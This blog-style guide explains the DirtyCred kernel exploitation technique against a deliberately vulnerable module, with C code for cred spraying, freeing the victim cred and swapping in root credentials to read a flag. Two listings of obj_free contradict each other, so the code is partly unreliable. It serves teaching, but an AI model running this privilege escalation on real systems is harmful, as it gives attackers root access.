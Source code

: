 ```yaml
---
title: Linux Kernel Exploitation - DirtyCred
date: 2025-04-29
categories: [Guide, Linux Kernel Exploitation]
tags: [linux, pwn]
---
```


In this post, I will explain DirtyCred, a universal and data-only exploitation technique that allows us to escalate privileges without a write primitive. Download the [handouts](https://github.com/r1ru/linux-kernel-exploitation/tree/main/dirty-cred) beforehand.

## Analysis
The vulnerable LKM provides three commands: `CMD_ALLOC`, `CMD_READ`, and `CMD_FREE`. These commands are used to allocate, read from, and free objects defined as follows:
```c
#define OBJ_SIZE    0xc0

struct obj {
    char buf[OBJ_SIZE];
};
```
Note that `obj_alloc` internally uses `kmem_cache_zalloc`. This means a dedicated cache is used for managing these objects:
```c
static long obj_alloc(int id) {
    if (objs[id] != NULL) {
        return -1;
    }
    objs[id] = kmem_cache_zalloc(obj_cachep, GFP_KERNEL);
    if (objs[id] == NULL) {
        return -1;
    }
    return 0;
}
```
Also, note that `kfree` is used instead of `kmem_cache_free` in `obj_free`. This is intentional, as we will use it later to free cred objects:
```c
static long obj_free(int id) {
    kfree(objs[id]);
    return 0;
}
```

## Bugs
In `obj_free`, `objs[id]`, which is a reference to a freed memory region, is not cleared:
```c
static long obj_free(int id) {
    kmem_cache_free(obj_cachep, objs[id]);
    return 0;
}
```
This results in an obvious UAF. By performing cross-cache attack explained in the [previous post](https://r1ru.github.io/posts/1), we can overlap victim objects with arbitrary kernel objects. However, we only have a read primitive, so it is difficult to control RIP. Therefore, in this post, we will take a data-only approach using DirtyCred.

## DirtyCred
The main idea of DirtyCred is to swap non-root credentials with root credentials. In this post, we target `struct cred`, which is allocated from a dedicated cache called cred. By performing cross-cache attack, we can overlap victim objects with cred objects. Since we can free victim cred objects (via `obj_free`), by spraying root cred objects, we can achieve root privilege.

## Exploitation
The initial steps are the same as in the [previous post](https://r1ru.github.io/posts/1/#exploitation). The difference is in the fourth step, where we allocate a large number of cred objects:
```c
char stack[NUM_CRED_SPRAY][0x1000];
for (int i = 0; i < NUM_CRED_SPRAY; i++) {
    assert(clone(try_read_flag, &stack[i][0xfff], CLONE_FILES | CLONE_FS | CLONE_VM | CLONE_SIGHAND, NULL) != -1);
}
```
Here, we use `clone` with some flags to allocate cred objects with low noise. This technique was discovered by willsroot. See their [blog post](https://www.willsroot.io/2022/08/reviving-exploits-against-cred-struct.html) for more details.

`try_read_flag` is defined as follows. It waits for the atomic variable, `try` to be true, checks if it has root previleges, and then reads the flag:
```c
int try_read_flag(void *arg) {
    char flag[0x10] = {};
    int fd;

    while(atomic_load(&try) != true) {
        sleep(1);
    }

    if (geteuid() == 0) {
        fd = open("/dev/sdb", O_RDONLY);
        assert(fd != -1);
        assert(read(fd, flag, 0x10) != -1);
        printf("[+] Flag: %s\n", flag);
        atomic_store(&win, true);
        exit(0);
    } else {
        atomic_fetch_add(&num_failed, 1);
        exit(0);
    }   
}
```
Next, we locate the victim cred object and free it:
```c
int victim = -1;
struct cred cred = {};
for (int i = 0; i < num_sprary; i += objs_per_slab * 2) {
    for (int j = i; j < i + objs_per_slab; j++) {
        obj_read(j, (char *)&cred, sizeof(cred));
        if (cred.uid == getuid() && cred.euid == geteuid()) {
            victim = j;
            printf("[+] Freeing the victim object: id = %d\n", victim);
            obj_free(victim);
        }
    }
}
if (victim == -1) {
    puts("[-] Failed to locate the victim objects");
    exit(1);
}
```
Finally, we spray root cred objects, which causes the victim cred object freed in the previous step to be swapped with a root cred object.
```c
for (int i = 0; i < NUM_ROOT_CRED_SPRAY; i++) {
    int pid = fork();
    if (pid == 0) {
        char *argv[] = {"/bin/su", NULL};
        execve(argv[0], argv, NULL);
    }
}
sleep(1);

puts("\n[*] Attempting");
atomic_store(&try, true);
```
By running this exploit, we can see the flag:
![win](/assets/img/posts/2025-04-29-3/win.png)

## References
1. Zhenpeng Lin, Yuhang Wu, and Xinyu Xing. 2022. DirtyCred: Escalating Privilege in Linux Kernel. In Proceedings of the 2022 ACM SIGSAC Conference on Computer and Communications Security (CCS '22). Association for Computing Machinery, New York, NY, USA, 1963–1976. https://doi.org/10.1145/3548606.3560585
2. willsroot. 2022. Reviving Exploits Against Cred Structs - Six Byte Cross Cache Overflow to Leakless Data-Oriented Kernel Pwnage. https://www.willsroot.io/2022/08/reviving-exploits-against-cred-struct.html